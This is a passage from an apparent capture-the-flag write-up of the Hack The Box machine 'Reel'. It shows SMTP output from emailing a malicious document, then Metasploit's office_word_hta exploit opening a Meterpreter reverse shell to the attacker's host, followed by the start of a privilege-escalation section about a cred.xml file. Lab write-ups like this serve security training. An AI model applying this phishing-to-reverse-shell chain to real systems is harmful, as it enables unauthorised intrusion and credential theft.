 ```bash
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Fri, 11 Feb 2022 13:17:58 -0500
 -> To: nico@megabank.com
 -> From: root@nms
 -> Subject: test Fri, 11 Feb 2022 13:17:58 -0500

...[snip]...

 -> 
 -> .
<-  250 Queued (12.109 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

After waiting a few seconds, we should get a remote shell on the target machine.

```bash
msf6 exploit(windows/fileformat/office_word_hta) > 
[*] Sending stage (175174 bytes) to 10.129.147.8
[*] Meterpreter session 1 opened (10.10.14.20:443 -> 10.129.147.8:49509) at 2022-06-04 10:20:04 -0400

msf6 exploit(windows/fileformat/office_word_hta) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer        : REEL
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_GB
Domain          : HTB
Logged On Users : 6
Meterpreter     : x86/windows
```

Nice, we now have a remote shell and our **first flag**.

# Privileges Escalation

Privilege Escalation consists of techniques that adversaries use to gain higher-level permissions on a system or network. Adversaries can often enter and explore a network with unprivileged access but require elevated permissions to follow through on their objectives. Common approaches are to take advantage of system weaknesses, misconfigurations, and vulnerabilities.

## Reading Creds

Looking around nico's **Desktop** folder, we found a file named **cred.xml**.
